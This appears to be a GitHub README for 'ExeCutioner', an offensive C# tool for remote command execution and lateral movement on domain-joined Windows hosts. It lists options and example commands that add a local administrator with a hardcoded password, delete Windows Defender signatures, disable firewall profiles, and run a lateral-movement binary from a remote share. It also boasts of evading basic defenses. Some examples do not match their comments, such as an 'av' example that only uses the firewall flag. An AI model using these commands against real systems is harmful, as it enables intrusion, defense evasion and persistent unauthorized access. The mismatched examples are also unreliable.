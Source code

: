 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164909586-9938ba03-3381-4750-ab95-3f69c261f625.png)



This is an Offensive C# Tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It also supports a "PsExeclike" lateral movement technique that attempts to fly under the radar of basic defenses and can be used to clear AV Definitions to further make attacks easier.

                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current user token and turn off av - useful and facilitates easier lateral movement/code execution
ExeCutioner.exe /t <target name or IP> /syscreds true /nofw true

//Authenticate to target with current user token and execute command
ExeCutioner.exe /t <target name or IP> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current user token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>

//Authenticate to target with current user token and add a new Local Administrator - username "newguy" with password "MakeLife123"
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by and leverage code from "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


